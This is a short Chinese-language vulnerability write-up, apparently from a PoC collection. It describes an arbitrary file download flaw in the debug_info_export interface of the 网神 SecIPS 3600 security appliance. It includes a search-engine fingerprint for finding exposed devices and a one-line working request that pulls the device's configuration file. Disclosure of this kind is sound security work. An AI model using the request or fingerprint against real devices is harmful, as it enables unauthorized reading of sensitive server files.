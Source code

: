 # 网神 SecIPS 3600 debug_info_export 任意文件下载漏洞

## 漏洞描述

网神 SecIPS 3600 debug_info_export接口存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

<a-checkbox checked>网神 SecIPS 3600 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="网神-SecIPS"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1639641366514-eff0967c-0e03-479e-b9d3-81ba2f07eacb.png)

验证POC

```go
/webui/debug/debug_info_export?filename=default.cfg
```

![img](../../../.vuepress/public/img/1639641390577-fec79e9b-2981-4807-a0fd-1bd6f7986a44.png)